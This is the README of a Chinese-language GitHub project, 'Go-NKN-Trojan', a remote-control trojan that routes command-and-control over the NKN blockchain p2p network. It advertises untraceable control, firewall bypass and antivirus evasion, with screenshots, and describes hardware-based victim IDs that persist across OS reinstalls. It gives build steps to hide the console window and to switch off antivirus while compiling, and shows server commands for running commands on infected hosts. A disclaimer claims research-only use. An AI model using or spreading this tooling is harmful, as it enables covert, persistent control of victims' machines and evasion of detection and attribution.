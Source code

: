 # Go-NKN-Trojan

一款由区块链的核心网络技术p2p实现的去中心化去C2的基础远控木马框架

**目前该项目只开源了命令执行功能为测试可行性，其余功能可自行追加。**

**本项目是在旧版goland编写，新版goland会报import错误，无视即可正常编译**

## 特点

**解决木马C2服务的痛点，方法不同于域前置、白域名等手段，通信采用p2p作为通信基础架构，调用区块链NKN-SDK实现p2p通信，取消传统C2模式，控制端无需公网IP减少成本并且可以有效防止被溯源,并且可绕过云上流量防火墙管制。**

**木马通过对主机一部分硬件设备信息进行收集整合生成该设备唯一指定ID，即使主机重装操作系统也不改变控制ID，通过此ID目标主机持续对控制端进行心跳式回连保证控制端不丢失目标主机，同时防止目标主机出现意外状况再次上线后ID变化。**

**最近更新:目前会被火绒误报为挖矿病毒，通过微步沙箱检测到的外连IP，虽然没有控制端真实IP，但是程序会连接NKN主网域名。原因初步判断为检测到程序连接NKN主网域名，与挖矿病毒初步行为相似，被误报为挖矿进程**

![image-20220808085321638](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220808085321638.png)

**免杀性能优秀**

![image-20220528183550653](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183550653.png)

![image-20220528183618747](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183618747.png)

## 免责声明

```
1.依据《刑法修正案（七）》第9条增订的《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。
2.第二百八十五条第二款 违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
3.刑法第二百五十三条之一：“国家机关或者金融、电信、交通、教育、医疗等单位的工作人员，违反国家规定，将本单位在履行职责或者提供服务过程中获得的公民个人信息，出售或者非法提供给他人，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金。情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
```

**由于传播、利用开源信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不承担任何责任。**

**开源仅作为安全研究之用！切勿用作实战用途！仅限于本地复现！**

## 使用

### server

**首先需要随机生成一个64位seed，调用下列命令即可。该种子将作为的控制者的唯一标识ID，切勿丢失**

```
server.exe -g new
```

**将64位seed加载读入程序中，控制端将生成该seed的唯一控制ID，控制ID格式为monitor.xxxx....**

```
server.exe -g e6178488d64cf94703f68c57cbdd7eb634a773ba119c7646a4394bac993e47f3
```

展示结果如下

```
your controlid = monitor.8146bae11e3f976c105f7cace9a96bed0dfdb0bdec2f1a8313e46d93726a77c7
```

**启动监听后，监听中若有目标机回连将会显示目标ID，该ID固定格式为xxxx.xxxx....，并且会同时会显示目标机公网IP、内网IP、MAC地址**。展示结果如下

```
target host connect, ID: 09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b ,target IP address : xxx.xxx.xxx.xx|xxx.xxx.xxx.xxx|xx:xx:xx:xx:xx:xx
```

**对目标机执行命令格式为：目标机ID 命令**

```
09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b whoami
```

### client

**将server中生成的控制端ID写入Client Code的controlid变量，编译即可。**

## 注意事项

**由于调用NKN-SDK进行编译，所以体积较大，可以使用压缩壳缩小体积**

可能会被一些安全产品误报为挖矿病毒，火绒会对区块链相关的编译工具报毒，编译时需关闭火绒或设置信任区。

Windows、Linux皆可成功编译执行，但若Windows平台若需要取消程序弹出CMD框，需要修改command.go配置，WindowsCommand所属Exec()函数中SysProcAttr追加HideWindow: true参数，例如

```
&syscall.SysProcAttr{HideWindow: true}
```

编译参数需要追加参数

```
-ldflags "-s -w -H=windowsgui"
```
